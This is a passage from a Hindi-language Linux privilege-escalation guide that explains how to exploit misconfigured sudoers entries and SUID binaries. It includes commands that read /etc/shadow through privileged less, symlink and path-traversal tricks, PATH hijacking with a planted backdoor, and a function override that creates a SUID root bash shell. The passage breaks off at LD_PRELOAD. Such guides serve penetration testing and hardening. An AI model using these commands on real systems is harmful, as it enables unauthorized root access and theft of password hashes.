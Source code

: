 ```bash
```
### Sudo पथों को छोड़कर निष्पादन करना

**अन्य फ़ाइलों को पढ़ने** या **सिमलिंक** का उपयोग करें। उदाहरण के लिए sudoers फ़ाइल में: _hacker10 ALL= (root) /bin/less /var/log/\*_
```bash
sudo less /var/logs/anything
less>:e /etc/shadow #Jump to read other files using privileged less
```

```bash
ln /etc/shadow /var/log/new
sudo less /var/log/new #Use symlinks to read any file
```
यदि **वाइल्डकार्ड** का उपयोग किया जाता है (\*), तो यह और भी आसान हो जाता है:
```bash
sudo less /var/log/../../etc/shadow #Read shadow
sudo less /var/log/something /etc/shadow #Red 2 files
```
**विरोधात्मक उपाय**: [https://blog.compass-security.com/2012/10/dangerous-sudoers-entries-part-5-recapitulation/](https://blog.compass-security.com/2012/10/dangerous-sudoers-entries-part-5-recapitulation/)

### Sudo कमांड/SUID बाइनरी बिना कमांड पथ के

यदि **sudo अनुमति** केवल एक कमांड को **पथ स्पष्ट निर्दिष्ट किए बिना** दी जाती है: _hacker10 ALL= (root) less_ तो आप इसे पाथ चर बदलकर उपयोग कर सकते हैं।
```bash
export PATH=/tmp:$PATH
#Put your backdoor in /tmp and name it "less"
sudo less
```
यह तकनीक उपयोग की जा सकती है यदि एक **suid** बाइनरी **पथ को निर्दिष्ट किए बिना एक अन्य कमांड को निष्पादित करती है (हमेशा एक अजीब SUID बाइनरी की सामग्री के साथ** _**strings**_ **की जांच करें)**।

[निष्पादित करने के लिए उदाहरण पेलोड।](payloads-to-execute.md)

### पथ के साथ SUID बाइनरी

यदि **suid** बाइनरी **पथ को निर्दिष्ट करके एक अन्य कमांड को निष्पादित करती है**, तो आपको कोशिश करनी चाहिए कि एक फंक्शन बनाएं और उसे निर्यात करें जिसका नाम सुइड फ़ाइल को बुलाया जा रहा है।

उदाहरण के लिए, यदि एक suid बाइनरी _**/usr/sbin/service apache2 start**_ को बुलाती है, तो आपको फ़ंक्शन बनाने और निर्यात करने की कोशिश करनी होगी:
```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
```
फिर, जब आप suid बाइनरी को कॉल करते हैं, यह फ़ंक्शन चलाया जाएगा

### LD\_PRELOAD और **LD\_LIBRARY\_PATH**

**LD\_PRELOAD** एक ऐसा वैकल्पिक पर्यावरणीय चर है जिसमें एक या एक से अधिक साझा पुस्तकालयों, या साझा ऑब्जेक्ट्स, के पथ होते हैं, जिन्हें लोडर लोड करेगा, इसमें सी रनटाइम पुस्तकालय (libc.so) सहित किसी भी अन्य साझा पुस्तकालय से पहले। इसे एक पुस्तकालय को प्रीलोड करना कहा जाता है।
